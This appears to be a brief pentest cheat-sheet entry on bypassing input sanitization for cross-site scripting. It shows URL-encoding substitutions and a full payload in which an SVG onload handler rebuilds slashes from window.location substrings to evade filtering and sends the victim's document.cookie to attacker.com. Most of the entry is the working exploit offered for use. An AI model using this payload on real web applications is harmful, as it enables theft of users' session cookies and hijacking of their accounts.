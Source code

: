 # Sanitization
## Bypassing Sanitization
1. **Encoding**
URL encode sanitized characters:
```
*whitespace* -> %0C
*new line* -> %0D
... etc
```
2. **JS function**
if forward slashes(`/`) are being sanitized:
```js
window.location.href.substring()
```
```
http://address.com/?name=
<svg%0Conload=window.location=(window.location.href.substring(0, 7)%2b"attacker.com"%2bwindow.location.href.substring(5,6)%2b"cookies"%2bwindow.location.href.substring(5,6)%2bdocument.cookie)>
```